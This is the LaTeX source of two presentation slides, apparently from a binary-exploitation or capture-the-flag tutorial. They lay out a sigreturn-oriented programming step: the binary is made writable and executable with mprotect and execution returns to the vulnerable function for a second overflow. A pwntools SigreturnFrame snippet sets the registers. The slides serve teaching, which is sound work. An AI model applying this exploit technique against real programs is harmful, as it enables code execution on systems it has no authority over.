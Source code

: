 \documentclass[aspectratio=169]{beamer}
\newcommand{\reg}[1]{\%\texttt{#1}}
\newcommand{\hex}[1]{\texttt{0x#1}}
\begin{document}
\begin{frame}[fragile]
    \frametitle{SigreturnFrame Setup}
    \begin{itemize}
        \item Things we need to decide:
        \begin{itemize}
            \item mprotect or mmap?
            \item value of \reg{rip}
            \item value of \reg{rsp}
            \item plan for what to do after we return from syscall
        \end{itemize}
        \pause
        \item binary is not stripped, so we have list of its symbols somewhere in memory
        \item If we point \reg{rsp} to that location, we can continue ROPing! Our Plan:
        \begin{enumerate}
            \item mprotect the whole binary to RWX
            \item set \reg{rsp} to \hex{402240}, since we have a pointer to vuln there
            \item after mprotect, execute return, and so jumping back to vuln
            \item we can overflow again, but this time know the buffer location and it is RWX!
        \end{enumerate}
    \end{itemize}
\end{frame}

\begin{frame}[fragile]
    \frametitle{SigreturnFrame Setup}
    \begin{itemize}
        \item sigreturn can set all registers for us
        \item we set \reg{rsp} as explained before, \reg{rax} to \hex{a} (mprotect) and \reg{rip} to a  gadget.
        \item hence our frame looks like:
    \end{itemize}
    \begin{codebox}{python}
frame = SigreturnFrame()
frame.rax = constants.SYS_mprotect # for syscall
frame.rdi = addr # address we want to mprotect, here 0x402000
frame.rsi = 0x1000 # amount of bytes we want to mprotect
frame.r10 = constants.MAP_FIXED # not really needed
frame.rdx = constants.eval('PROT_READ | PROT_WRITE | PROT_EXEC') # RWX
frame.rsp = 0x402240 # our "fake" stack after mprotect
frame.rip = syscall_ret # syscall ret gadget\end{codebox}
\end{frame}
\end{document}
